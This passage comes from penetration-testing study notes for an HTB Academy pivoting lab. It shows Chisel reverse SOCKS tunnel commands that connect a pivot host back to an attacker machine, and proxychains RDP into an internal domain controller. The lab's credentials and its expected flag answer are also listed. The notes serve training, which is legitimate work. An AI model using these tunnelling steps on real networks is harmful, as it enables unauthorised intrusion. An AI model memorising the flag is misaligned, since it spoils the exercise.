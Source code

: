 ### **Step 1: Start Reverse Server on Attack Host**
```bash
# Start Chisel server with reverse option
sudo ./chisel_1.7.6_linux_amd64 server --reverse -v -p 1234 --socks5

# Expected output:
# 2022/05/30 10:19:16 server: Reverse tunnelling enabled
# 2022/05/30 10:19:16 server: Fingerprint n6UFN6zV4F+MLB8WV3x25557w/gHqMRggEnn15q9xIk=
# 2022/05/30 10:19:16 server: Listening on http://0.0.0.0:1234
```

### **Step 2: Connect Reverse Client from Pivot Host**
```bash
# On pivot host, connect with R:socks option
./chisel_1.7.6_linux_amd64 client -v 10.10.14.17:1234 R:socks

# Expected output:
# 2022/05/30 14:19:29 client: Connecting to ws://10.10.14.17:1234
# 2022/05/30 14:19:30 client: Connected (Latency 117.204196ms)
# 2022/05/30 14:19:30 client: tun: SSH connected
```

### **Step 3: Configure Proxychains (Same as Normal Mode)**
```bash
# Proxychains still uses local SOCKS5 proxy
socks5 127.0.0.1 1080

# Test connection
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

---

## **5. HTB Academy Lab Exercise**

### **Lab Challenge**
**"Using the concepts taught in this section, connect to the target and establish a SOCKS5 Tunnel that can be used to RDP into the domain controller (172.16.5.19, victor:pass@123). Submit the contents of C:\Users\victor\Documents\flag.txt as the answer."**

### **Lab Environment**
- **Target SSH:** Ubuntu pivot host with credentials `ubuntu:HTB_@cademy_stdnt!`
- **Internal Network:** 172.16.5.0/23
- **Domain Controller:** 172.16.5.19
- **DC Credentials:** `victor:pass@123`
- **Flag Location:** `C:\Users\victor\Documents\flag.txt`
- **Expected Flag:** `Th3$eTunne1$@rent8oring!`

### **Complete Lab Solution**
